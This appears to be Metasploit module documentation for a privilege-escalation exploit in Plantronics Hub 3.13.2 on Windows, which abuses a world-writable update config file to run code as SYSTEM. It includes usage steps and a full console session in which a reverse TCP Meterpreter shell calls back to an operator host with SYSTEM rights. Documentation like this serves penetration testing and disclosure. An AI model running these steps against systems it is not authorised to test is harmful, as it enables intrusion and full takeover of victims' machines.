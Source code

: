 ## Description

  The Plantronics Hub client application for Windows makes use of an
  automatic update service `SpokesUpdateService.exe` which automatically
  executes a file specified in the `MajorUpgrade.config` configuration
  file as SYSTEM. The configuration file is writable by all users by default.


## Vulnerable Application

  This module has been tested successfully on [Plantronics Hub version 3.13.2](https://www.plantronics.com/content/dam/plantronics/software/PlantronicsHubInstaller-3.13.2.exe) on Windows 7 SP1 (x64).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/windows/local/plantronics_hub_spokesupdateservice_privesc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *SYSTEM* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `%TEMP%`)


## Scenarios

### Windows 7 SP1 (x64)

  ```
  msf > use exploit/windows/local/plantronics_hub_spokesupdateservice_privesc
  msf exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > set session 1
  session => 1
  msf exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > set verbose true
  verbose => true
  msf exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > check
  [*] The service is running, but could not be validated.
  msf exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Writing payload to C:\Users\test\AppData\Local\Temp\MuVtxrl9.exe ...
  [*] Writing configuration file to C:\ProgramData\Plantronics\Spokes3G\MajorUpgrade.config ...
  [*] Sending stage (180291 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:49431) at 2020-01-03 14:55:46 -0500
  [-] Failed to delete C:\Users\test\AppData\Local\Temp\MuVtxrl9.exe: stdapi_fs_delete_file: Operation failed: Access is denied.

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > 
  ```

